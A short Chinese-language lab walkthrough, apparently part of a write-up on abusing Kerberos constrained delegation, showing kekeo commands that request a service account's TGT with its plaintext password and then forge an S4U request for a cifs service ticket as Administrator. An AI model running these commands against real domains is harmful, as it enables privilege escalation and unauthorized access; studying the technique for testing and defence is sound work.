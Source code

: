 - 在已知服务账户明文的情况下, 我们用`kekeo`请求该用户的 TGT

```
tgt::ask /user:win2016test /domain:gong.com /password:Caonima@123 /ticket:test.kirbi
```

![](vx_images/5750701183506.png)

生成的服务账户 TGT 如下所示:

![](vx_images/4027102177052.png)

利用得到的 TGT 伪造 s4u, 请求以 Administrator 用户身份请求访问 win2016-member1 cifs 的 ST

```
tgs::s4u /tgt:TGT.kirbi /user:Administrator@gong.com /service:cifs/win2016-member1.gong.com
```

![](vx_images/5709715170186.png)
